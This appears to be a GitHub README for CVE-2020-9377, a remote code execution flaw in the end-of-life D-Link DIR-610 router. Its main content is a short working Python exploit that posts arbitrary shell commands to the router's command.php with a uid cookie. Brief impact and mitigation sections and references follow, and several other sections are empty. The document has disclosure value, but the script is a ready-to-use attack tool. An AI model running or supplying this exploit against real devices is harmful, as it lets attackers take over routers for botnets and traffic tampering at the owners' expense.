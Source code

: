 <p align="center">
  <h3 align="center">CVE-2020-9377</h3>
  <p align="center">Remote Code Execution (RCE) on D-LINK 610 Router</p>
</p>

---

### Summary

---

### Description

---


### Exploit

```python
#!/usr/bin/python

import os
import sys
import urllib2
import threading
import time

def main(host, port, uid, command):
    request = urllib2.Request('http://%s:%s/command.php' % (host, port), 'cmd=%s' % command, { 'Cookie': 'uid=%s' % uid })
    print urllib2.urlopen(request).read()

if __name__ == '__main__':
    [host, port, uid, command] = sys.argv[1:5]
    main(host, port, uid, command)
```

---

### Impact

A malicious agent can execute commands on the router system remotely and take control of it and subvert such router to work/perform actions that it wants, using the same for botnets, traffic infection actions and other possibilities.

---
 
### Mitigation

While D-Link is aware of vulnerabilities involving DIR-610, these products have reached End of Life (EoL)/End of Support (EoS) and there is no extended support or development for them. D-Link will not be able to resolve device or firmware issues as all development and customer support has ceased.

The DIR-610 Rev. Ax reached its End of Support Date in 2014, it is no longer supported and firmware development has stopped, all consumers still using the product should retire it and immediately replace the device.

---

### Conclusion



---

### References

1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9377
2. https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10182
3. https://www.dlink.com.br/produto/dir-610/
4. https://owasp.org/www-community/attacks/Command_Injection
5. https://portswigger.net/web-security/os-command-injection